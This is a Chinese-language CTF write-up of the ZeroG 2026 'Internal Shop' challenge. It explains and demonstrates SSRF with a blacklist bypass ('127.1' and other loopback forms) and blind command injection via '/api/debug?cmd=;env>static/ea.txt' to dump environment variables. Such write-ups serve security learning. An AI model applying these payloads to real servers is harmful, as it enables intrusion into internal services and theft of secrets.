---
date: 2026-10-29
slug: zerog2026-stage2-ssrf
categories:
  - SSRF
  - 命令注入
---

# Stage2 — Can't see the result? Just take it out（Internal Shop）

> **题目类型**：Web — SSRF + 命令注入（无回显）
>
> **题目地址**：ZeroG CTF 2026 · Stage2（实例已关闭）
>
> **Flag**：`flag{65e49f2f-8785-4b8a-809f-247089a45efd}`

---

## 题目概述

> **和 [ZeroG_2026（Stage 2）](../zerog2026-stage2/) 不是同一题** —— 那篇是 PHP 弱类型与参数名变形，这篇是 SSRF。

站点叫 Internal Shop，是一个"多平台价格比价系统"。输入商品页 URL，服务端去抓取并比价。



导航里还有一个「系统信息」页 —— 后面就是从这里拿到内部接口的。

---

## 解题过程

### Step 1：从两个页面提取信息

首页是一个 URL 输入框，右上角有两个入口：「比价抓取」和「系统信息」。

先进「系统信息」，页面上直接写了内部服务接口文档：



```text
内部 API 地址   http://127.0.0.1:5001
接口列表        /api/product?id=1
                /api/debug?cmd=whoami
说明            内部 API 仅允许本地访问，且主站不回显内部响应
```

**两条信息很关键：**

```
① 内部服务只监听 127.0.0.1:5001，外网碰不到
② 主站不会把内部响应显示出来 —— 也就是说，就算打通了也是"盲"的
```

### Step 2：直接打 127.0.0.1 — 失败

既然比价功能是"服务端抓取 URL"，那它就是天然的 SSRF 入口。直接把目标换成内部地址：

```text
http://127.0.0.1:5001/api/debug?cmd=whoami
```

返回：



```text
抓取失败
非法的 URL
```

说明 `127.0.0.1` 被黑名单挡了。

### Step 3：换一个写法绕过 — 成功

`127.0.0.1` 有很多等价写法，只要目标解析到同一个地址、但不命中黑名单里的字符串就行：



这里我用的是 `127.1`：

```text
http://127.1:5001/api/debug?cmd=whoami
```



抓取成功了：



**但页面只说"已完成比价，结果稍后通过邮件发送" —— 内部响应确实不回显。**

### Step 4：把结果带出来 — 重定向写到静态目录

既然拿不到回显，那就让内部命令自己把结果写到主站能访问到的地方。

`static` 这个目录是在源码里看到的：



```html
<link rel="stylesheet" href="/static/style.css">
```

构造 payload，把命令输出重定向进去：



```text
http://127.1:5001/api/debug?cmd=whoami>static/out.txt
```

**然后直接访问 `out.txt`。**

### Step 5：输出里混进了 Debug — 需要闭合前一句

看 `out.txt` 时发现，命令的输出和 `Debug` 字样被一起打印了出来。所以猜测后端大概是：

```python
return "Debug: " + cmd_result
```

也就是说，**我传的 `>static/out.txt` 会把整个 `echo` 的结果改写进文件，而不只是命令输出。**

所以要先把前面那句截断，让重定向只作用于我自己的命令：



```text
http://127.1:5001/api/debug?cmd=;whoami>static/aa.txt
```

闭合之后输出就干净了：



```text
root
```

### Step 6：换命令找 flag — 先查环境变量

能写文件、能读文件，接下来就是找 flag。先查环境变量（比翻目录快）：



```text
http://127.1:5001/api/debug?cmd=;env>static/ea.txt
```

在 `ea.txt` 里找到了：



```text
ZEROG_2026_FLAG=flag{65e49f2f-8785-4b8a-809f-247089a45efd}
```

---

## 解题思路总结

```
首页只有 URL 输入框
  → 进「系统信息」页，读到内部 API：127.0.0.1:5001 与 /api/debug?cmd=
    → 直接填 127.0.0.1，被判定为"非法的 URL"
      → 换成 127.1（同一地址的等价写法），抓取成功
        → 但页面不回显内部响应（题目明说了）
          → 用命令重定向把结果写进 static/ 目录，再直接访问该文件
            → out.txt 里混着 Debug 字样，说明前面有 echo
              → 用 ; 截断前一句，输出变干净（root）
                → 换 env 命令，拿到 ZEROG_2026_FLAG
```

### 漏洞原理

**① SSRF：服务端替我去请求**

**比价功能必须由服务端抓取 URL，这个"抓取"没有限制目标 —— 于是可以把目标指向只有服务器自己能访问的 `127.0.0.1:5001`。**

**② 黑名单只匹配字符串，不匹配语义**

```text
被拦：127.0.0.1
放过：127.1        ← 同一个地址，字符串不同
```

**`127.1` 是 IPv4 的短格式，解析器会自动补全成 `127.0.0.1`。黑名单拦的是**写法**，不是**地址**。**

**③ 无回显：把输出换成"写入可访问路径"**

```text
正常思路   命令 → 响应 → 我看
无回显     命令 → 重定向写文件 → 我再访问那个文件
```

**④ 闭合：输出里混了别的东西，说明它被包在一句话里**

**看到 `Debug:` 和命令结果一起出现，就知道后端大概在做字符串拼接。`;` 把前一句结束掉，重定向才只作用于我的命令。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| 信息收集 | 「系统信息」页直接给出内部 API 与接口列表，比爆破快 |
| SSRF | 服务端抓取功能可指向内网地址 |
| 黑名单绕过 | `127.1` / `0` / `0.0.0.0` / `[::1]` / 十进制 / 十六进制 都等价于 `127.0.0.1` |
| 无回显处理 | 命令输出重定向到 web 可访问目录，再直接访问文件 |
| 语句截断 | 输出混入拼接内容时，用 `;` 结束前一句再执行自己的命令 |
| 找 flag 顺序 | 先 `env`（快），再 `ls /`、`find / -name "*flag*"` |
